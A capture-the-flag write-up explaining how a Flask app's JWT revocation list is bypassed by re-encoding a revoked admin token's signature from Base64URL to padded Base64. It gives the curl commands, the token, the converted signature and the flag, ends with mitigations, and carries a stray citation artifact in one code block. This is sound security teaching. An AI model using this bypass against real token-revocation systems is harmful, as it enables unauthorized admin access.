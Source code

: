 ## Overview

In this challenge, we bypass a Flask-based JWT Revocation List (JRL) by altering the token’s signature encoding. The server maintains a **denylist** of revoked admin tokens (the JRL) and performs a raw string comparison on the cookie value before verifying it. By fetching the revoked admin token from `/jrl`, converting its Base64URL‐encoded signature into standard Base64 (adding padding), and resubmitting it, we slip past the string‐match check—even though PyJWT happily accepts both encodings for verification—granting us an “admin: true” session and the flag. ([SuperTokens][1], [DEV Community][2])

---

## Background

### JWT & JRL

* A **JSON Web Token (JWT)** is a compact, URL-safe means of transmitting claims between parties, signed per \[RFC 7519] and secured via JSON Web Signature (\[RFC 7515]) ([IETF Datatracker][3]).
* To revoke issued tokens, many systems use a **denylist** (or blacklist) that stores raw token strings; any token in this list is refused, regardless of validity ([DEV Community][2]).

### Base64URL vs. Base64

* **Base64URL** (used by JWT) replaces `+`→`-` and `/`→`_` and omits `=` padding for URL safety.
* **Standard Base64** uses `+` and `/` and includes `=` padding so the output length is a multiple of 4 ([Medium][4]).
* Many libraries (including PyJWT) accept both formats when decoding, ignoring or auto‐adding padding as needed ([GitHub][5], [Stack Overflow][6]).

---

## Challenge Setup

1. **Secrets**

   * `APP_SECRET` (HMAC‐SHA256 key for all tokens)
   * `ADMIN_SECRET` (used only by `/get_admin_cookie`)

2. **Endpoints**

   * `/` issues a **non-admin** JWT (`{"admin": false}`).
   * `/get_admin_cookie?adminsecret=…&uid=…` issues an **admin** JWT if you know `ADMIN_SECRET` and use `uid ≠ '1337'`.
   * `/jrl` returns a JSON array of revoked token strings (initially contains the original admin JWT with `uid='1337'`).
   * `/flag` reads your `session` cookie, strips `=`, checks it **not** in JRL, then decodes it—returning the flag if `admin=true`.

---

## Exploit

### 1. Retrieve the Revoked Token

```bash
curl http://HOST:1337/jrl
```

```json
[
  "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.
   eyJhZG1pbiI6dHJ1ZSwidWlkIjoiMTMzNyJ9.
   BnBYDobZVspWbxu4jL3cTfri_IxNoi33q-TRLbHV-ew"
]
```

### 2. Convert Signature Encoding

* **Original signature** (Base64URL):

  ```
  BnBYDobZVspWbxu4jL3cTfri_IxNoi33q-TRLbHV-ew
  ```
* **Convert** `-`→`+`, `_`→`/`, then **add** `=` padding until length % 4 = 0:

  ````
  BnBYDobZVspWbxu4jL3cTfri/IxNoi33q+TRLbHV+ew==
  ``` :contentReference[oaicite:5]{index=5}
  ````

### 3. Bypass JRL String Check

* The server’s JRL lookup is a **raw string** comparison of your cookie against its list. Our **re‐encoded** token no longer matches the stored entry, so it passes the JRL check ([DEV Community][2]).
* PyJWT then decodes and verifies the token using `APP_SECRET`. Because it auto‐handles both Base64URL and padded Base64 signatures, it accepts our modified token as valid ([GitHub][5], [Stack Overflow][6]).

### 4. Fetch the Flag

```bash
curl -b "session=<header>.<payload>.BnBYDobZVspWbxu4jL3cTfri/IxNoi33q+TRLbHV+ew==" http://HOST:1337/flag
```

**Result:**

```
byuctf{idk_if_this_means_anything_but_maybe_its_useful_somewhere_97ba5a70d94d}
```

---

## Mitigations & Takeaways

* **Canonicalize** token strings (e.g., normalize Base64URL) before blacklist checks to prevent representation‐based bypasses ([Medium][7]).
* Better: store unique token identifiers (the `jti` claim) in the revocation list rather than raw string values ([curity.io][8]).

---

*Happy hacking!*

[1]: https://supertokens.com/blog/revoking-access-with-a-jwt-blacklist?utm_source=chatgpt.com "Revoke Access Using a JWT Blacklist | SuperTokens"
[2]: https://dev.to/supertokens/revoking-access-with-a-jwt-blacklistdeny-list-3e4p?utm_source=chatgpt.com "Revoking Access with a JWT Blacklist/Deny List - DEV Community"
[3]: https://datatracker.ietf.org/doc/html/rfc7515?utm_source=chatgpt.com "RFC 7515 - JSON Web Signature (JWS) - Datatracker - IETF"
[4]: https://medium.com/%40bagdasaryanaleksandr97/understanding-base64-vs-base64-url-encoding-whats-the-difference-31166755bc26?utm_source=chatgpt.com "Understanding Base64 vs Base64 URL Encoding - Medium"
[5]: https://github.com/jpadilla/pyjwt/issues/676?utm_source=chatgpt.com "JWTs containing base64 padding are erroneously accepted #676"
[6]: https://stackoverflow.com/questions/77854959/is-signature-in-jwt-base64-encoded?utm_source=chatgpt.com "Is signature in JWT base64 encoded? - Stack Overflow"
[7]: https://medium.com/%40ahmedosamaft/understanding-jwt-revocation-strategies-allowlist-denylist-and-jti-matcher-9d298893f8a1?utm_source=chatgpt.com "Understanding JWT Revocation Strategies: Allowlist, Denylist, and ..."
[8]: https://curity.io/resources/learn/jwt-best-practices/?utm_source=chatgpt.com "JWT Security Best Practices | Curity"
